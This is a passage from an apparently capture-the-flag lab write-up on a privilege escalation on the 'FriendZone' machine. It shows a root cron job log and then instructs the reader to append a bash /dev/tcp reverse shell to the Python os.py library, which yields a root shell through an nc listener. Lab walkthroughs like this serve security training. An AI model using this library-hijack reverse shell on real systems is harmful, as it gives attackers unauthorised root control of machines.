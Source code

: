 ```
2023/02/26 05:42:01 CMD: UID=0     PID=9320   | /bin/sh -c /opt/server_admin/reporter.py                                                        
2023/02/26 05:42:01 CMD: UID=0     PID=9319   | /bin/sh -c /opt/server_admin/reporter.py                                                        
2023/02/26 05:42:01 CMD: UID=0     PID=9318   | /usr/sbin/CRON -f 
2023/02/26 05:42:01 CMD: UID=0     PID=9321   | /usr/bin/python /opt/server_admin/reporter.py                                                   
2023/02/26 05:42:01 CMD: UID=0     PID=9322   | /bin/bash -c bash -i >& /dev/tcp/10.10.14.26/1234 0>&1                                          
2023/02/26 05:42:01 CMD: UID=0     PID=9323   | /bin/bash -c bash -i >& /dev/tcp/10.10.14.26/1234 0>&1                                          
```
We can run reporter.py as root, so if we can somehow put bin/bash or revshell in the code then we are goot.

## Perform escalation

append revshell at the end so it becomes something like this.
```os.py
...
try:
    _copy_reg.pickle(statvfs_result, _pickle_statvfs_result,
                     _make_statvfs_result)
except NameError: # statvfs_result may not exist
    pass

import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.26/1234 0>&1'")
```

```
nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.209.64] 52496
bash: cannot set terminal process group (4972): Inappropriate ioctl for device
bash: no job control in this shell
root@FriendZone:~# 
```